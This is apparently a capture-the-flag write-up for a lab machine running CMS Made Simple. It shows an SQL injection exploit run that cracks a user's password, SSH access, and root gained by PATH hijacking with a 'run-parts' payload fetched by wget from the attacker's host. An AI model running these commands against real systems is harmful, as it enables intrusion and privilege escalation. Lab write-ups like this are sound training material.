 # Writeup

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.95.203
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-06 11:25 EDT
Nmap scan report for 10.129.95.203
Host is up (0.14s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

### Port 80 --> SQL Injection

Port 80 just hosts this image:

<figure><img src="../../../.gitbook/assets/image (604).png" alt=""><figcaption></figcaption></figure>

This thing says that it is banning IPs that send too many requests, so a directory scan might be counterproductive. Instead, based on the text, going to `/writeup` works.&#x20;

<figure><img src="../../../.gitbook/assets/image (843).png" alt=""><figcaption></figcaption></figure>

Viewing the page source reveals that this is using CMS Made Simple:

<figure><img src="../../../.gitbook/assets/image (2745).png" alt=""><figcaption></figcaption></figure>

There are loads of exploits for this software.

```
$ searchsploit made simple
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
CMS Made Simple (CMSMS) Showtime2 - File Upload Remote Cod | php/remote/46627.rb
CMS Made Simple 0.10 - 'index.php' Cross-Site Scripting    | php/webapps/26298.txt
CMS Made Simple 0.10 - 'Lang.php' Remote File Inclusion    | php/webapps/26217.html
CMS Made Simple 1.0.2 - 'SearchInput' Cross-Site Scripting | php/webapps/29272.txt
CMS Made Simple 1.0.5 - 'Stylesheet.php' SQL Injection     | php/webapps/29941.txt
CMS Made Simple 1.11.10 - Multiple Cross-Site Scripting Vu | php/webapps/32668.txt
CMS Made Simple 1.11.9 - Multiple Vulnerabilities          | php/webapps/43889.txt
CMS Made Simple 1.2 - Remote Code Execution                | php/webapps/4442.txt
CMS Made Simple 1.2.2 Module TinyMCE - SQL Injection       | php/webapps/4810.txt
CMS Made Simple 1.2.4 Module FileManager - Arbitrary File  | php/webapps/5600.php
CMS Made Simple 1.4.1 - Local File Inclusion               | php/webapps/7285.txt
CMS Made Simple 1.6.2 - Local File Disclosure              | php/webapps/9407.txt
CMS Made Simple 1.6.6 - Local File Inclusion / Cross-Site  | php/webapps/33643.txt
CMS Made Simple 1.6.6 - Multiple Vulnerabilities           | php/webapps/11424.txt
CMS Made Simple 1.7 - Cross-Site Request Forgery           | php/webapps/12009.html
CMS Made Simple 1.8 - 'default_cms_lang' Local File Inclus | php/webapps/34299.py
CMS Made Simple 1.x - Cross-Site Scripting / Cross-Site Re | php/webapps/34068.html
CMS Made Simple 2.1.6 - 'cntnt01detailtemplate' Server-Sid | php/webapps/48944.py
CMS Made Simple 2.1.6 - Multiple Vulnerabilities           | php/webapps/41997.txt
CMS Made Simple 2.1.6 - Remote Code Execution              | php/webapps/44192.txt
CMS Made Simple 2.2.14 - Arbitrary File Upload (Authentica | php/webapps/48779.py
CMS Made Simple 2.2.14 - Authenticated Arbitrary File Uplo | php/webapps/48742.txt
CMS Made Simple 2.2.14 - Persistent Cross-Site Scripting ( | php/webapps/48851.txt
CMS Made Simple 2.2.15 - 'title' Cross-Site Scripting (XSS | php/webapps/49793.txt
CMS Made Simple 2.2.15 - RCE (Authenticated)               | php/webapps/49345.txt
CMS Made Simple 2.2.15 - Stored Cross-Site Scripting via S | php/webapps/49199.txt
CMS Made Simple 2.2.5 - (Authenticated) Remote Code Execut | php/webapps/44976.py
CMS Made Simple 2.2.7 - (Authenticated) Remote Code Execut | php/webapps/45793.py
CMS Made Simple < 1.12.1 / < 2.1.3 - Web Server Cache Pois | php/webapps/39760.txt
CMS Made Simple < 2.2.10 - SQL Injection                   | php/webapps/46635.py
CMS Made Simple Module Antz Toolkit 1.02 - Arbitrary File  | php/webapps/34300.py
CMS Made Simple Module Download Manager 1.4.1 - Arbitrary  | php/webapps/34298.py
CMS Made Simple Showtime2 Module 3.6.2 - (Authenticated) A | php/webapps/46546.py
----------------------------------------------------------- ---------------------------------
```

I tried a few of them, and only the SQL Injection one worked.&#x20;

```
$ python3 46635.py -u http://10.129.95.203/writeup --crack -w /usr/share/wordlists/rockyou.txt
[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
[+] Password cracked: raykayjay9
```

With this, we can `ssh` in as `jkr`.&#x20;

<figure><img src="../../../.gitbook/assets/image (2184).png" alt=""><figcaption></figcaption></figure>

Grab the user flag.

## Privilege Escalation

### PATH Hijacking

I ran a LinPEAS scan to enumerate for me, which found that we are part of the `staff` group that can write to certain directories:

```
[+] Interesting GROUP writable files (not in Home) (max 500)
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-files
Group staff:
/usr/local/bin
/usr/local/games
/usr/local/sbin
<TRUNCATED>
```

Having write access to these directories means that we can do PATH hijacking by creating an executable in those files with the same name as processes run by `root`. As such, I downloaded `pspy64` onto the machine to see if `root` was running any processes without full paths.&#x20;

When run, I saw these processes that were run:

```
2023/05/06 05:02:16 CMD: UID=0    PID=12903  | run-parts --lsbsysinit /etc/update-motd.d 
2023/05/06 05:02:16 CMD: UID=0    PID=12904  | /bin/sh /etc/update-motd.d/10-uname
```

The `run-parts` command did not have a full path, meaning that we can exploit this. We can create a basic `bash` script that makes `/bin/bash` an SUID binary. Then we can download it into the `/usr/local/bin` directory:

```
jkr@writeup:/usr/local/bin$ wget 10.10.14.13:8000/run-parts
--2023-05-06 05:03:51--  http://10.10.14.13:8000/run-parts
Connecting to 10.10.14.13:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 32 [application/octet-stream]
Saving to: ‘run-parts’

run-parts               100%[============================>]      32  --.-KB/s    in 0s      

2023-05-06 05:03:51 (6.62 MB/s) - ‘run-parts’ saved [32/32]

jkr@writeup:/usr/local/bin$ chmod +x run-parts
```

Afterwards, we just need to `ssh` back into the machine to execute it and get a `root` shell.

<figure><img src="../../../.gitbook/assets/image (853).png" alt=""><figcaption></figcaption></figure>

